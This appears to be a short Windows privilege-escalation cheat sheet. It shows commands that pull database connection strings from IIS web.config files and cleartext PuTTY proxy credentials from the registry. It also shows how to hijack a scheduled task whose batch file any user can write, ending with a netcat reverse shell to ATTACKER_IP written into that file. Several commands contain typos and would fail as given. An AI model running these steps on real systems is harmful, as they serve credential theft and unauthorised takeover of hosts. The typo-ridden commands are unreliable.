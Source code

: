 ## IIS Configuration
Internet Information Services is the default web server in windows. The configuration file is called `web.config`

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

# Quick DB string search
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connnectionString
```

# Retrieve Credentials from Sofware: PuTTY
Users won't allow users to store their SSH passwords, but it will store proxy configurations that include cleartext authentication credentials.

`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

#Scheduled Tasks
We are interested in 2 of these parameters:

`Task to Run` - What gets executed by the scheduled task
`Run As User` - User to execute the task

If we can use the current user to modify or overwrite the "Task to Run" executable we can control what gets executed.

```
schtasks /query /tn nameoftasktoschedule /fo list /v

Folder:         \
HostName:       PC1
TaskName:       \vulntask
Task To Run:    C:\tasks\schtask.bat
Run As User:    taskusr1
```

To check file permissions on the executable:

```sh
icals c:\tasks-schtask.bat

c:\tasks\schtask.bat    NT AUTHORITY\SYSTEM:(I)(F)
                        BUILTIN\Administrators:(I)(F)
                        BUILTIN\Users:(I)(F)
```

From the output above we can see that `BUILT\Users` group has full access (F) over the tasks binary.

## Example Reverse Shell
Run from cmd.exe:

```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```
